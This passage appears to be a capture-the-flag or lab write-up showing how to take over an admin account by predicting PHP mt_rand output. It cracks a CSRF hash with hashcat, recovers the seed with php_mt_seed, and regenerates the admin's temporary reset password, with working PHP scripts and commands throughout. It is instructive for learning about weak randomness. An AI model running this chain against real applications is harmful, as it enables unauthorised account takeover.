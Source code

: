 ```
```

NOTE: when doing the request twins, just swap out the 2nd request reset of the admin account for your test user. Pull out the usec from the generated passwords and see their time difference. For this example, I'm going with the usec range of 90,000 - 150,000.

Now we need to crack the CSRF hash. This is easily done with the following hashcat command: `hashcat -m 0 -a 3 -i --increment-min=8 hash.txt ?l?l?l?l?l?l?l?l -w 3 -O`. Cracked: `ljcayigp`. 

Time to use `php_mt_rand`. I made this php script to automatically generate the proper input for `php_mt_rand` based on the `pw2args.php` script discussed here: https://github.com/openwall/php_mt_seed.

```php
$allowable_characters = 'abcdefghijklmnopqrstuvwxyz';
$len = strlen($allowable_characters) - 1;
$pass = $argv[1];

$iter = 0;
for ($i = 0; $i < $iter; $i++) {
  for ($j = 0; $j < strlen($pass); $j++) {
    echo "0 0 0 0  ";
  } 
}

for ($i = 0; $i < strlen($pass); $i++) {
  $number = strpos($allowable_characters, $pass[$i]);
  echo "$number $number 0 $len  ";
}
echo "\n";
```

Now if we run:
```
./php_mt_seed `php pw2args.php ljcayigp`
```
we should see that it found one: `seed = 0x1407828c = 336036492`


To regenerate `mt_rand` output used for the admin temporary password, we need to copy the `genRandString` function and run it after seeding `mt_srand` with `336036492`. Here is my `regen.php` script:
```php
function genRandString($length) {
  $allowable_characters = 'abcdefghijklmnopqrstuvwxyz';
  $len = strlen($allowable_characters) - 1;
  $str = '';

  for ($i = 0; $i < $length; $i++) {
    $str .= $allowable_characters[mt_rand(0, $len)];
  }

  return $str;
}

mt_srand(336036492);
// csrf token
echo genRandString(8);
echo "\n";
// rand string for "test" reset
echo genRandString(8);
echo "\n";
// rand string for "admin" reset
echo genRandString(8);
echo "\n";
```
